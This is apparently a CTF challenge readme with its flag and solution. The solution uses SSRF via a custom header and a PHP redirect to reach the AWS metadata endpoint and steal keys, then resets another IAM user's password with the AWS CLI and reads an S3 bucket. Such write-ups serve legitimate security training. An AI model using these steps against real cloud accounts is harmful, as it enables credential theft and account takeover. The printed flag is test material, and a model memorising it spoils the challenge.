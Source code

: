 # name:Lateral Movement 
description:  

* Bruteforce required

# flag: hackim20{Hail_RhinoSecurity_labs!!!!}

# solution
- SSRF via X-Tunnel-To Header with 303 Redirect in /api/1/something
  - curl localhost:3000/a -X GET -H "X-Tunnel-To: defmax.io\redirect.php?a=303
  - Redirect.php
    <?php
      header("http://169.254.169.254/",true,$_GET['a'])
    ?>
-The / is a full proxy, If you send a PUT, it sends PUT to proxy. This can be used to retrieve AWS keys.
- Now we need to privilege escalate ourselfs, Tools of rhino wont work here because I am giving access to IAM:ListPolicy
- The attacker should do a smart bruteforce, Where only 15 functions which can let users escalate themselfves
- aws iam list-users -> List users -> Find poorUser -> Update password using update-login profile
  - aws iam update-login-profile --user-name poorUser --password 'password'  
- The login sso link would be https://[accountID].signin.aws.amazon.com/console. The account can be retrived from arn, by calling aws stg get-caller-identity
- After login, Naviaget to S3 nullcon2020 Bucket to get the flag.


#Installation

- ./start.sh
